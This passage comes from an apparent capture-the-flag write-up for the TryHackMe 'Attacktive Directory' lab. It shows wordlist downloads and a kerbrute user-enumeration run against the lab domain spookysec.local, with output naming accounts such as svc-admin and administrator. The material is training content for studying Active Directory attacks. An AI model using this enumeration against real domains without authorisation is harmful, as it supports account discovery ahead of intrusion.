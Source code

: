 ```
Use "kerbrute [command] --help" for more information about a command.
```

`userenum`

2. What notable account is discovered? (These should jump out at you)

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
--2020-10-17 11:08:02--  https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.112.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.112.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 744407 (727K) [text/plain]
Saving to: ‘userlist.txt’

userlist.txt                                     100%[=======================================================================================================>] 726.96K   456KB/s    in 1.6s    

2020-10-17 11:08:04 (456 KB/s) - ‘userlist.txt’ saved [744407/744407]

kali@kali:~/CTFs/tryhackme/Attacktive Directory$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
--2020-10-17 11:08:13--  https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.112.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.112.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 569236 (556K) [text/plain]
Saving to: ‘passwordlist.txt’

passwordlist.txt                                 100%[=======================================================================================================>] 555.89K  2.24MB/s    in 0.2s    

2020-10-17 11:08:13 (2.24 MB/s) - ‘passwordlist.txt’ saved [569236/569236]

kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo /opt/kerbrute/dist/kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (1ad284a) - 10/17/20 - Ronnie Flathers @ropnop

2020/10/17 11:08:19 >  Using KDC(s):
2020/10/17 11:08:19 >   spookysec.local:88

2020/10/17 11:08:20 >  [+] VALID USERNAME:       james@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       James@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       robin@spookysec.local
2020/10/17 11:08:21 >  [+] VALID USERNAME:       darkstar@spookysec.local
2020/10/17 11:08:22 >  [+] VALID USERNAME:       administrator@spookysec.local
2020/10/17 11:08:23 >  [+] VALID USERNAME:       backup@spookysec.local
2020/10/17 11:08:23 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/10/17 11:08:27 >  [+] VALID USERNAME:       JAMES@spookysec.local
2020/10/17 11:08:28 >  [+] VALID USERNAME:       Robin@spookysec.local
```